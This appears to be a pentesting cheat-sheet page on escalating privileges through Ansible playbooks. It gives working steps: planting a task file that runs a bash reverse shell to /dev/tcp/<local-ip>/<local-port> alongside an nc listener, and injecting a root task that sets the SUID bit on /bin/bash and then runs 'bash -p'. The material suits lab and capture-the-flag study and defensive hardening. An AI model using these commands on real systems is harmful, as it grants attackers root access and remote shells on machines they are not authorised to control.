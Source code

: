 ```yaml
---
title: Ansible Playbook Privilege Escalation
description: Ansible Playbooks are lists of tasks that automatically execute against hosts.
tags:
  - Privilege Escalation
refs:
date: 2023-03-14
draft: false
---
```


## PrivEsc with Tasks

First off, check the content of playbook in **`/opt/ansible/playbooks`**.  
For instance, a file named **“httpd.yaml”**.

```yaml
- name: Install and configure Apache
  ...
  roles:
    - role: geerlingguy.apache
  tasks:
    - name: configure firewall
      firewalld:
        ...
```

Next, check the content of configure files in **`/opt/ansible/roles/geerlingguy.apache/tasks`**.  
And add the exploitable file in this.  
For example, a file named **`“shell.yml”`**.

```yaml
- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
```

Create a exploit for reverse shell.

```sh
echo '/bin/bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1' > /tmp/root.sh
```

Then open a listener in local machine.

```sh
nc -lvnp <local-port>
```

At the end, execute **“ansible”**

```sh
ansible
# or
ansible-playbook  
# or
sudo -u <some-user> ansible
```

<br />

## PrivEsc with Automation Task

If the target system runs automation tasks with Ansible Playbook as root and we have write permission of task files (**`tasks/`**), we can inject arbitrary commands in **yaml** file.  
For example, create a new file **`/opt/ansible/tasks/evil.yaml`**.

```yaml
- hosts: localhost
	tasks:
	  - name: Evil
	    ansible.builtin.shell: |
	      chmod +s /bin/bash
	    become: true
```

After a while, we can escalate the root privilege by executing the following command.

```sh
/bin/bash -p
```